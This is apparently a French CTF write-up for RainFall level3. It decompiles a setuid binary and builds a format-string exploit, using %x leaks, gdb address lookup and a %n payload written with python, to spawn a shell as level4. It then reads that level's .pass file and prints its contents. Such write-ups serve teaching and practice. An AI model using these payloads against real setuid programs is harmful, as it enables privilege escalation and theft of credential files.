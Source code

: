 # Level3

```
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

Nous avons un exécutable que nous allons décompiler :

```
void v(void)
{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)

{
  v();
  return;
}
```

Le code nous informe que l'entrée utilisateur est récupérée puis affichée avec printf.
On remarque qu'il n'y a pas de sélecteur (%..) défini avec printf.
Après recherches nous allons exploiter une faille connue sous le nom de "format string".

Nous pouvons afficher ou manipuler le contenu de la stack en injectant les sélecteurs de printf dans l'entrée standart.

```
level3@RainFall:~$ ./level3
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825
```
```
level3@RainFall:~$ ./level3
AAAA%x %x %x %x
AAAA200 b7fd1ac0 b7ff37d0 41414141
```

Nous constatons que nous pouvons prendre le contrôle de l'exécution dans la 4e stack frame.
Dans le code nous voyons une condition qui permet de lancer un shell si m == 0x40.

Nous allons récupérer l'adresse de m grace a gdb :
```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
(gdb) x/x 0x804988c
0x804988c <m>:	0x00000000
```
Maintenant que nous avons l'adresse "0x804988c" nous allons modifier le contenu de "m", grâce qu sélecteur "%n" de printf, qui permet d'écrire dans la mémoire le nombre correspondant aux caractères qui précède "%n".
ex :
```
int i;
printf("Hello%n", &i);
printf(" %d\n", i); // 5
```
Nous allons donc créer le script suivant :
```
python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
```
Qui va écrire 64 caractéres a l'adresse de "m".
Explications :
Nous spécifions tout d'abord l'adresse a l'emplacement que nous controllons
```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %x %x %x %x")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
? 200 b7fd1ac0 b7ff37d0 804988c

level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %4$x")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
? 804988c // %4$x permet de spécifié le 4e élément.
```

En partant du dernier script, il suffit de mettre nos 60 espaces "%60x", et de donner l'adresse de m a %n pour écrire 64 dedans (0x40 en hexa)

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
